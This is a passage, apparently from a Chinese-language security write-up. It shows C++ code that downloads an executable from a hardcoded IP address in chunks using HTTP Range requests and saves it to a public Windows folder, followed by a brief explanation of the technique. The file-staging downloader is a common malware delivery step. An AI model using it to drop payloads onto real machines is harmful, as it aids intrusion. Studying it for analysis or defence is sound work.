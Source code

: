 ```

    CloseHandle(pFile);

    return TRUE;
`}`


int main()
`{`
    char * url = "http://192.168.206.144/Messagebox.exe";
    string payload;
    string response;

    long fileSize = f_get(url,response);

    response.clear();
    long payloadSize = payload.size();

    while(payloadSize &lt; fileSize)`{`
        //get data using http head range
        response.clear();
        f_get2(url,payloadSize,fileSize,response);
        payload.append(response);
        payloadSize = payload.size();
    `}`

    wstring path = L"C:\\Users\\Public\\1.exe";
    Write(path,(char *)payload.c_str(),payload.size());

    system("pause");
`}`
```

**<a class="reference-link" name="%E4%BB%A3%E7%A0%81%E5%88%86%E6%9E%90"></a>代码分析**

1.首先通过第一次get获取目标文件的大小，由于设置了<br>`curl_easy_setopt(curl,CURLOPT_TIMEOUT,30); //接收数据时超时设置`<br>
当在指定时间内无法接受到整块数据，会返回部分接受到的数据（包括能获取到大小的http头），这也是一次直连HTTP在网络状况差的情况下会导致的问题。<br>
2.当得知了整个文件大小，通过range头来分块获取
